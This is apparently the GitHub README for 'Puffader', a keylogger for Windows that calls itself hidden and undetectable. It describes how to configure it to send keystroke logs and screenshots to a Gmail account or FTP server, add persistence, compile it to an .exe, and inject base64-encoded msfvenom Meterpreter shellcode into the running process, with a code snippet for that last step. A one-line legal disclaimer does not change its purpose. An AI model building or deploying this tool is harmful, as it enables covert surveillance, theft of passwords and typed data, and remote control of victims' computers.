 [![Build status](https://ci.appveyor.com/api/projects/status/5tc6085mmmw6rym8?svg=true)](https://ci.appveyor.com/project/xp4xbox/puffader)
# Puffader
Puffader is an opensource, hidden and undetectable keylogger for windows written in Python 2.7 which can also capture screenshots and mouse window clicks.

## Installation
Puffader Requires:
* [Python 2.7](https://www.python.org/downloads)
* [Pyhook](https://sourceforge.net/projects/pyhook/files/pyhook/1.5.1/)
* [Pywin32](https://sourceforge.net/projects/pywin32/files/pywin32/)
* [PyAutoGui](https://pypi.python.org/pypi/PyAutoGUI)

Please refer to the [wiki](https://github.com/xp4xbox/Puffader/wiki/Installing-Prerequisites) for more information on installing prerequisites.

The program can be downloaded via github or git eg.
```git clone https://github.com/xp4xbox/Puffader```

## Features
Currently Puffader has several features such as:
* Ability to send logs to any gmail account.
* Ability to send logs via ftp
* Ability to capture screenshots
* Ability to store logs locally
* Ability to configure log size before sending
* Ability to send logs at timed intervals
* Ability to control how you want the backspace key to be outputed as.
* Ability to stop the program via ctrl-rshift-h.
* Ability to log special characters.
* Ability to embed an undetectable meterpreter shell
* Optional persistence.
* Ability to capture window mouse clicks
* Checking for multiple instances
* And more...

## Quick Usage

1. Open file with idle or any other editor.
2. Modifiy lines `22-45` for your personal preference: eg.
```
strEmailAc = "email@gmail.com"
strEmailPass = "pass"

blnFTP = "False"
strFtpServer = ""
intFtpPort = 21
strFtpUser = ""
strFtpPass = ""
strFtpRemotePath = "/"

intCharPerSend = 1000

blnUseTime = "False"
intTimePerSend = 120

blnStoreLocal = "True"
strLogFile = "c:/temp/test.txt"

blnLogClick = "True"
blnBackRemove = "True"

blnScrShot = "True"
strScrDir = "c:/temp"
intScrTime = 120
```
> NOTE: For `strScrDir`, be sure to leave out the last `/`.

#### If you plan to send messages via email, be sure to [allow access for less secure apps](https://myaccount.google.com/lesssecureapps) in your gmail account.

For more information please refer to the [wiki](https://github.com/xp4xbox/Puffader/wiki/Usage).

### Compiling Program To .exe

#### Py2Exe (recommmended)
1. Install [Py2Exe](https://sourceforge.net/projects/py2exe/files/py2exe/0.6.9/).
2. Run `python setup.py`

#### cx_Freeze
1. Install cx_Freeze via `pip install cx_freeze`.
2. Run `python cx_freeze_setup.py build`.

Or refer to the [wiki](https://github.com/xp4xbox/Puffader/wiki/Compiling-To-.exe) for more information.

## Using Persistence

Please refer to the [wiki](https://github.com/xp4xbox/Puffader/wiki/Persistence).

## Adding Meterpreter Plugin

1. Generate raw shellcode using msfvenom (eg. xr8\x02...).
2. Encode the shellcode to base64 by using [this](https://github.com/xp4xbox/Puffader/blob/master/Meterpreter_Plugin/base64encoder.py).
3. Move the [code_injector module](https://github.com/xp4xbox/Puffader/blob/master/Meterpreter_Plugin/code_injector.py) to same dir as the program.
4. Paste in this code after the function to prevent multiple instances. Setting b64shellcode to be your encrypted shellcode.
```
import code_injector, base64
# base64 shellcode
b64shellcode = ""
shellcode = base64.b64decode(b64shellcode)  # decrypt shellcode
pid = os.getpid()  # get current pid

code_injector.InjectShellCode(pid, shellcode)  # inject the shellcode into the program
```
5. Build program with Py2Exe using [setup.py](https://github.com/xp4xbox/Puffader/blob/master/Meterpreter_Plugin/setup.py) to compile the program to single .exe.

## Help

If you need any help at all, feel free to post a "help" issue.

## Contributing

Contributing is encouraged and will help make a better program. Please refer to [this](https://gist.github.com/MarcDiethelm/7303312) before contributing.

## Disclaimer

This program must be used for legal purposes! I am not responsible for anything you do with it.

## License
[License](https://github.com/xp4xbox/Puffader/blob/master/LICENSE)
